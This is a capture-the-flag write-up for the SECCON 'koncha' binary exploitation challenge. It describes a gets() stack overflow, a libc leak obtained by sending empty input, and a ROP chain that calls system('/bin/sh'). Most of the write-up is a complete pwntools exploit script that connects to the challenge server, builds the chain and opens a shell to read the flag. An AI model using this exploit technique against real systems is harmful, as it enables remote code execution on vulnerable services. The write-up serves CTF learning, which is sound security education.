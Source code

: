 ### koncha-нный write-up

#### TL;DR

* Get libc leak
* Perform ROP

#### Getting to know the binary
If we open the binary in IDA we see a pretty simple main function ![IDA image](/pwn/koncha/assets/IDA_function.png)

`gets()` is clearly the vulnerability here, so considering that the challenge binary has no canary we can easily perform ROP.

#### ROP chain

* Get LIBC leak
    
    When i first launched the binary I noticed one interesting feature: if I don't provide any input and just press ENTER, the output of my name will contain strange bytes.![Leak_pic](/pwn/koncha/assets/nc_output.png) Looking into it, I figured that those bytes, when converted to int, are actually an adress from `LIBC`. Sweet! Now we don't have to worry about ASLR anymore.
    

* Get code execution

    Here we'll use pop_rdi gadget together with address of `"/bin/sh"` string in liband a call to `system`

#### Payload
Overall payload looks something like this
    import pwn

    # Set up binaries and gadgets
    binary = pwn.ELF("./chall", checksec=False)
    libc = pwn.ELF("../lib/libc.so.6", checksec=False)
    libc.symbols['pop_rdi'] = 0x0000000000023b6a
    libc.symbols['ret'] = 0x0000000000022679  # ret gadget to align the stack
    
    
    LEAK_OFFSET = 0x1f12e8
    
    io = pwn.remote("koncha.seccon.games", 9001)
    
    # Get libc leak
    io.recvline()
    io.sendline(b'')
    
    libc_leak = io.recvline()[18:-2]
    libc_leak = int.from_bytes(libc_leak, byteorder="little")
    libc.address = libc_leak - LEAK_OFFSET
    
    pwn.log.success(f"LIBC BASE: {hex(libc.address)}")
    
    BINSH_ADDRESS = next(libc.search(b"/bin/sh"))
    pwn.log.info(f"BINSH address: {hex(BINSH_ADDRESS)}")
    pwn.log.info(f"Sytem() address: {hex(libc.symbols['system'])}")
    
    # 0x50 -buffers + 0x8 - saved rbp
    payload = pwn.cyclic(0x50 + 0x8)
    
    # pop_rdi gadget
    payload += pwn.p64(libc.symbols['pop_rdi'])
    
    # address of /bin/sh is put in RDI registry
    payload += pwn.p64(BINSH_ADDRESS)
    
    # Here we align the stack
    payload += pwn.p64(libc.symbols['ret'])
    
    # And finally call system() with address of "/bin/sh" string as argumet
    payload += pwn.p64(libc.symbols['system'])  # call to system()
    
    pwn.log.info("Sending the payload now...")
    
    io.sendline(payload)
    io.recvuntil(b'Goodbye!\n')
    
    io.interactive()
    
And so we `cat` the flag `SECCON{I_should_have_checked_the_return_value_of_scanf}`
